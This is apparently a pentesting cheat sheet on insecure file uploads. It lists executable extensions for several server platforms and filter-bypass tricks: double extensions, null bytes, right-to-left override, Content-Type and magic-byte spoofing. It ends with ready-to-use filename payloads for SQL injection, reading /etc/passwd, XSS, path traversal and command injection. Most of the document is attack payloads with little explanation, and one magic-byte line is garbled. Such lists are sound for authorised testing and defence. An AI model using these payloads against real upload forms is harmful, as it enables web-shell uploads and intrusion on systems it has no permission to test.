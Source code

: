# Insecure File Upload

## Defaults extensions

#### PHP

```bash
.php
.php2
.php3
.php4
.php5
.php7
.pht
.shtml
.phps
.phar
.phpt
.pgif
.phtml
.phtm
.inc
```

#### ASP

```
.asp
.aspx
.cer
.asa
.ashx
.asmx
.axd
.cshtm
.cshtml
.rem
.soap
```

#### JSP

```
.jsp
.jspx
.jsw
.jspf
.jsv
.wss
.do
.action
```

#### Perl

```
.pl
.pm
.cgi
.lib
```

#### Coldfusion

```
.cfm
.cfml
.cfc
.dbm
```

#### Flash

```
.swf
```

#### Erland Yaws Web Server

```
.yaws
```

## Bypasses

### Double extensions

```bash
file.jpg.php
file.php.jpg
file.php.blah123jpg
```

### Null byte

```
file.php%00.gif
file.php\x00.gif
file.php%00.png
file.php\x00.png
file.php%00.jpg
file.php\x00.jpg
```

### Special characters

```bash
#In Windows when a file is created with dots at the end those will be removed
file.php......

#Whitespace characters
file.php%20

#Right ot Left Override
file.%E2%80%AEphp.jpg #Will became file.gpj.php
```

### Content-type Bypass

```bash
#Original name but different content-type
Content-Type: image/jpeg
Content-Type: image/gif
Content-Type: image/png
```

### Magic bytes

```bash
#Sometimes applications identify file types based on their first signature bytes. Adding/replacing them in a file might trick the application
PNG: \x89PNG\r\n\x1a\n\0\0\0\rIHDR\0\0\x03H\0\xs0\x03[
JPG: \xff\xd8\xff
GIF: GIF87a
GIF: GIF8
```

### Triple equal

```
/?file=shell.php    <-- Blocked
/?file===shell.php  <-- Bypassed
```

### Filename Vulnerabilities:

```bash
#Time-Based SQLi Payloads
poc.js'(select*from(select(sleep(20)))a)+'.extension

#LFI Payloads
image.png../../../../../../../etc/passwd

#XSS Payloads
'"><img src=x onerror=alert(document.domain)>.extension

#File Traversal
../../../tmp/lol.png

#Command Injection
; sleep 10;
```

## All Filename payloads

```csharp
.jpg.php
.php.jpg
.php.blah123jpg
.php%00.gif
.php\x00.gif
.php%00.png
.php\x00.png
.php%00.jpg
.php\x00.jpg
.php......
.php%20
.%E2%80%AEphp.jpg
.js'(select*from(select(sleep(20)))a)+'.extension
.png../../../../../../../etc/passwd
'"><img src=x onerror=alert(document.domain)>.extension
../../../tmp/lol.png
.; sleep 10;
```
